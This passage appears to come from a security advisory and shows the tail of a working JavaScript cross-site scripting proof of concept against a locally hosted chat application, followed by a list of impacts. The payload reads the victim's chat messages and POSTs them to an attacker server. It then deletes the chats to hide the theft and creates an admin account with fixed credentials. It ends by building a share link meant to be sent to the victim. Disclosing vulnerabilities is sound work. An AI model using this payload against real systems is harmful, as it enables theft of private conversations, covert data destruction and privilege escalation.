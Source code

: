 ```js
        const chatId = chat.id;

        const chatDetail = await fetch('http://localhost:3000/api/v1/chats/' + chatId, {
            credentials: 'include'
        }).then((res) => res.json());

        const messages = chatDetail.chat.messages.map((m) => m.content);

        // send stolen chat information to the attacker's server
        fetch(attackerServer, {
            method: 'POST',
            body: messages
        });

        // delete the chat to avoid detection
        fetch('http://localhost:3000/api/v1/chats/' + chatId, {
            method: 'DELETE',
            credentials: 'include'
        });
    }

    // create an admin user for the attacker
    // the attacker can log in as an admin using the id = evil@example.test and password = Password123!
    const name = 'evil';
    const email = 'evil@example.test';
    const password = 'Password123!';
    fetch('http://localhost:3000/api/v1/auths/add', {
        method: 'POST',
        credentials: 'include',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
            name,
            email,
            password,
            role: 'admin'
        })
    });
})();
`.replace('__ATTACKER_SERVER__', attackerServer);

    // send this link to the victim
    alert(`http://localhost:3000/s/${share_id}#` + encodeURIComponent(jsPayload));
})();
```


Attackers can perform operations with the victim's privileges. For example, the following operations are possible:

- An attacker can steal on the victim's chat history
- An attacker can delete the victim's chats
- If the victim is an admin, the attacker can escalate their own account to an admin (privilege escalation)
